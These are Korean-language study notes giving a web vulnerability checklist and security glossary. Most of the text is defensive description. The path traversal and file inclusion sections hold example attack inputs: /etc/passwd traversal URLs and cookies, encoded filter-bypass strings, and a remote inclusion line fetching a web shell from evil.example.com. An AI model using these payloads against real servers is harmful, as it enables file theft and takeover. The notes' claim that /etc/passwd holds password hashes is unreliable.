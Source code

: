 ## Web Vuln. Checklist & Security Terminology

---



## Web Vuln. Checklist

---

### 1. 단순 정보 노출

**1.1. 불필요 파일/페이지 노출**

- 불필요한 파일/페이지 노출은 말 그대로 **웹 사이트의 민감정보**가 의도치 않게 노출되는 취약점을 의미한다.
- 불필요한 파일 : 애플리케이션 **설치시 기본적으로 제공**되는 매뉴얼, 기본 페이지, 소스 백업 파일 등을 의미하며 이를 통해 시스템 관련 정보 혹은 내부 프로그램 로직등이 노출될 수 있는 간접적 위험을 제공할 수 있다.

**1.2. 부적절한 로그인 실패 메시지**

- 부적절한 로그인 실패 메시지는 공격자에게 계정관련 정보를 제공할 수 있다.
- 입력한 아이디가 존재하는지, 비밀번호가 맞는지 모두를 알 수 없도록 '해당되는 아이디가 없습니다', '비밀번호가 틀렸습니다'가 아닌 '**ID 또는 PW가 잘못되었습니다**'라는 실패메시지를 출력하도록 한다.

**1.3. 에러메시지 노출**

- 해커가 의도적인 에러를 유발하였을 때 **적절한 예외처리**를 하지않아 출력되는 **에러정보에 중요정보가 포함되어** 공격에 도움되는 정보가 노출될 수 있는 보안약점

**1.4. Default Page 노출**

- 애플리케이션 설치시 기본적으로 설치되는 샘플 페이지, 디폴트 페이지, 관리자 페이지 등을 제어하지 않아 웹 서버에 대한 정보를 제공하게 되는 보안약점



### 2. 중요 정보 노출

**2.1. 중요정보 평문 전송**

- 사용자 또는 시스템의 중요정보가 포함된 데이터를 평문으로 송수신 할 경우, 통신채널 스니핑을 통해 인가되지 않은 사용자에게 해당 데이터가 노출될 수 있는 보안약점
- `Wireshark`로 보이는 패킷에 암호화되어 알아볼 수 없도록 되어있지 않고 일반적인 문자가 캡쳐된다면 취약한 것.



**2.2. 중요정보 평문 노출**

- 비밀번호, 개인정보와 같은 중요정보를 암호화하여 저장하지 않아 정보가 노출될 수 있는 보안약점



**2.3. 파일 다운로드**

- 홈페이지 상에서 파일을 다운로드 받는 `asp, jsp, php` 프로그램에서 입력되는 경로를 검증하지 않는 경우 임의의 위치에 존재하는 파일을 열람하거나 다운받을 수 있는 보안약점



**2.4. 디렉터리 리스팅**

- 웹 서버 운영시 특정 디렉터리에 초기화 파일이 없을 경우 `(index.html, default.html, ...etc)` 해당 디렉터리의 파일 
  리스트를 브라우저에게 보여주게 되는 보안약점
- 구조 파악 & 민감정보가 포함된 파일 노출 -> 보안 위협
- ../../../../etc/passwd : user들의 비밀번호의 해시값이 저장되어있는 파일

>**공격 방법**
>
>http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
>
>쿠키를 이용한 진단 : Cookie: USER=1826cc8f;PSTYLE=../../../../etc/passwd
>
>해당 공격은 파일을 포함시키거나 웹 사이트 외부에 있는 스크립트 파일을 포함시키는 것도 가능하다.
>
>http://example.com/index.php?file=http://www.owasp.org/malicioustxt
>
>
>
>**OS별 공격방법**
>
>일반적인 공격구문은 필터링 되기 때문에 인코딩을 통한 공격을 진행할 필요 또한 있다. (ex: %00 -> null )
>
>Unix-like OS:
>
>`root directory: "/"`
>`directory separator: "/"
>
>
>
>Windows OS Shell:
>
>`root directory: "[drive letter]:\"`
>
>`directory separator: "\" or "/"`
>
>
>
>- **URL encoding and double URL encoding**
>
>`%2e%2e%2f` -> `../`
>
>`%2e%2e/` -> `../`
>
>`..%2f` -> ../
>
>`%2e%2e%5c` -> `..\`
>
>`..%5c` -> `..\`
>
>`%252e%252e%255c` -> `..\`
>
>
>
>아래와 같은 필터링 로직이 있다고 가정해보자.
>
>```java
>filename = Request.QueryString("file");
>Replace(filename, "/", "\");
>Replace(filename, "..\","");
>```
>
>위와 같은 필터링 로직은 아래 구문을 통해 우회가 가능하다.
>
>```html
>file=....//....//boot.ini
>file=....\\....\\boot.ini
>file=..\..\boot.ini
>```
>
>



### 3. 취약한 인증 및 권한

---

**3.1. Cross-Site Script**

- 공격자가 <u>웹 사이트에 스크립트를 삽입</u>하여 의도치 않은 행동을 수행하거나 민감정보 탈취가 가능한 보안약점
- XSS의 공격대상은 클라이언트



**3.2. Cross-Site Request Forgery (CSRF)**

- 클라이언트가 자신의 의지와는 무관하게 공격자가 의도한 행위(삽입,삭제,등록 등)를 특정 웹사이트에 요청하게 만드는 공격



**3.3. 프로세스 검증 누락**

- 애플리케이션의 계획된 플로우 통제를 우회하는 것을 허가하는 보안약점.



### 4. 원격 명령실행

---

**4.1. Command Injection**

- `OS` 명렁어를 삽입하고 요청을 보내 웹 서버에서 실행시키는 취약점



**4.2 SQL Injection **

- 변조된 SQL언어를 사용해 DB내 데이터를 열람하거나 삽입&삭제하는 보안약점



**4.3. Local File Inclusion / Remote File Inclusion (LFI / RFI)**

- 공격 대상 서버에 위치한 파일을 포함시켜 읽어오도록 하는 공격

- 파일이 존재하는 위치가 로컬인지 리모트인지에 따라 나뉨.

>**LFI** Ex) example.com/index.jsp?file=../../../../../../etc/passwd
>
>**RFI** Ex) example.com/index.jsp?file=http://evil.example.com/webshell.txt



**4.4. File Upload**

- 서버 사이드 언어로 개발된 프로그램을 업로드하여 실행시킬 수 있는 취약점



**4.5. Server-Side Request Forgery(SSRF)**

- 서버 사이드에서 이루어지는 `Request`를 변조하여 해커가 의도한 서버로 요청이 가게 하거나 요청 내용을 변경할 수 있는 공격
- 사용자의 입력을 받아 서버가 직접 다른 웹 또는 포트에 접근하여 데이터를 가져오는 기능들에서 주로 발생함



**4.6. XXE Injection**

- XXE : `XML External Entity` 
- XML : `Extensible Markup Language`로 다른 특수한 목적을 갖는 `Markup Language`를 만드는데 사용하는 언어
- 즉 XML 외부 요소를 삽입하는 공격
- XML 문서에서 동적으로 외부 URI 리소스를 포함시킬 수 있는 `external entity`를 사용하여 서버의 로컬파일 열람등을 유발할 수 있는 취약점으로 XML Request를 파싱하는 페이지에서 발생한다.



**4.7. 검증되지 않은 Redirect/Forward**

- 사용자의 입력값에 대한 검증 없이 리다이렉트 처리시 발생하는 취약점.
- 악의적인 URL로 렌더링 될 수 있는 취약점 존재.





## Security Terminology

---

**민감정보** : 사상, 신념, 노동조합&정당가입, 건강정보, 유전정보, 범죄경력 정보 등 그 밖의 <u>정보주체의 사생활을 현저히 침해할 우려가 있는 개인정보</u>

**고유식별정보** : <u>주민등록번호, 여권번호, 운전면허번호, 외국인등록번호</u>

**인증/인가** : 

- 인증 : 통제된 자원에 접근시, 등록된 사용자 인지 여부를 확인하는 것. -> 로그인

- 인가 : 접근 이후, 인증된 사용자에게 권한을 부여하는 것.

  인증을 거친 이후 인증된 사용자에게 특정한 권한을 부여하는것이 인가

**위협/위험/취약점**

- 위협 : 자산에 손실을 발생시킬 수 있는 원인 또는 행위
- 위험 : 위협이 발생할 수 있는 가능성
- 취약점 : 위협에 의해 손실이 발생하게 되는 약점

**취약점이 존재하지 않는다면 위협은 위험이 될 수 없다.**



../../../../etc/passwd : user들의 비밀번호의 해시값이 저장되어있는 파일
